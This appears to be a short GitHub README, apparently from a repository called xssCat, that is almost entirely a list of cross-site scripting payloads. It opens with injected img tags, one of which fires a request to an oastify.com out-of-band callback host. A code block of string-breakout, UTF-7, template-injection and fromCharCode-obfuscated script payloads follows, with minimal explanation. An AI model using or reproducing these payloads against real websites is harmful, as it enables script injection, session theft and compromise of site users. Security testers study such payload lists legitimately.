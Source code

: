'"/><img src="https://raw.githubusercontent.com/thiem-dev/xssCat/main/tpen-safe-cat.jpg" onerror=prompt`document.domain`>

'"/><img src="http://mj96aqjvk4k9incbw2o252mia9g04tsi.oastify.com" onerror=alert`document.domain`>


# Sample

### rare xss:

```js
'-prompt(8)-' //for string append
"; alert('XSS');//  " //string append
¼script¾alert(¢XSS¢)¼script¾
‘; alert`1`;
eval`2+2`;

perl -e 'print XSS ' out   // this is probably not a perl type system but i wanted to try anyways
+ADw-script+AD4-alert`document.location`+ADw-script+AD4-
[{{alert;pg`XSS`}}] //template inject breakout

&#x3C;img src=x onerror=eval(String.fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))&#x3E;
```
